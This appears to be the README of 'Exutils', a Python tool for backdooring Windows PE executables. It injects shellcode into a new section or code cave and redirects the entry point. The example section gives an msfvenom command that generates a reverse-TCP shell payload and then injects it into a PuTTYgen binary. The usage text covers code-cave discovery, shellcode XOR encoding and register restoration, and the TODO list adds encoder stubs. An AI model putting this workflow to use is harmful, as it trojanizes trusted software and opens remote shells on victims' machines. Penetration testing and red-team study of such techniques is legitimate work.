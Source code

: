 # Exutils: A Small Collection of Python Scripts for Binary Analysis and Manipulation

## About

**This project is meant to be used for educational purposes only or for authorized purposes.**

This project is a work in progress. Not all features are integrated but now the following use cases are supported.

- Adding a new section and entering at that new section without restoration
- Adding a new section, jumping to that section, and restoring the original instructions

The goal is to leverage pefile and capstone to create a stripped down version of the Backdoor factory targeting 32 and 64 bit x86 systems that is easy to develop with.

## TODO

- [ ] Use an xor/encoder stub
- [ ] Discover code cave in .text and write to there
- [ ] Cleanup: add mixin inheritance for common functionality in inject module
- [ ] Cleanup: move restoration to class(es)

## Example

```
$ msfvenom -p windows/shell_reverse_tcp -o /path/to/payload/local.py LHOST=x LPORT=y -f python
## edit the local.py file and remove all the "python" portions so that it is just in /x00/x01/x02... format, new lines will be removed automatically
## save new verseion as local.txt
$ ./injectx86.py build -s txt:/path/to/payload/local.txt -f samples/puttygen-x86.exe --force --cave new-section -o /path/to/payloads/folder
```

## Usage

```
usage: exutils.py [-h] {binasm,bincave,boofuzz,build,expand,new-section,peinfo,shellasm,shellxor} ...

Inject shellcode into new section

positional arguments:
  {binasm,bincave,boofuzz,build,expand,new-section,peinfo,shellasm,shellxor}
                        action
    binasm              get asm from shellcode
    bincave             find code caves
    boofuzz             boofuzz (highly experimental, typically needs to be customized)
    build               build injected binary
    expand              expand binary (creates a copy)
    new-section         add a new section (copies and expands source file)
    peinfo              get info about pefile
    shellasm            get asm from shellcode
    shellxor            bitwise xor on shellcode

optional arguments:
  -h, --help            show this help message and exit


```

### build

Inject shellcode into a binary by creating a new section and changing the entrypoint via pefile. Attempts can be made to 'fix' the executable so that it restores the registers.

```
usage: exutils.py build [-h] -s SHELLCODE -f FILE [-o OUTPUT] [-F] [--no-restore] [--nop-restore-data] [-c {auto,cave,new-section}] [-e {jump,new-section}]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLCODE, --shellcode SHELLCODE
                        shellcode to convert in \xAA\xBB format (can also pass: a python import path via 'py:somefile.someimporttarget', shellcode in \AA format in a file via 'txt:/path/to/file', and binary data in a file via
                        'bin:/path/to/binary')
  -f FILE, --file FILE  path to source pe file
  -o OUTPUT, --output OUTPUT
                        path to newly created pe file
  -F, --force           force overwrite output
  --no-restore          do not fix the payload with popa and pusha
  --nop-restore-data    fill replaced/removed original instructions with NOPs instead of appending them to shellcode
  -c {auto,cave,new-section}, --cave {auto,cave,new-section}
                        where to write the shellcode. defaults to auto
  -e {jump,new-section}, --enter {jump,new-section}
                        how to handle the entrypoing. defaults to 'jump' where the executable uses 'jmp' to move to new section
```

### Shoulders of Giants:

- https://github.com/rmadair/PE-Injector/blob/master/pe-injector.py
- https://axcheron.github.io/code-injection-with-python/#adding-the-section-header
- https://github.com/v-p-b/peCloakCapstone
- https://github.com/secretsquirrel/the-backdoor-factory
- https://nightcr4wl3r.blogspot.com/2017/11/automating-backdoor-creation-for-pe.html
- https://github.com/n3tsky/Exploits-Tools/tree/master/PE-Backdoor
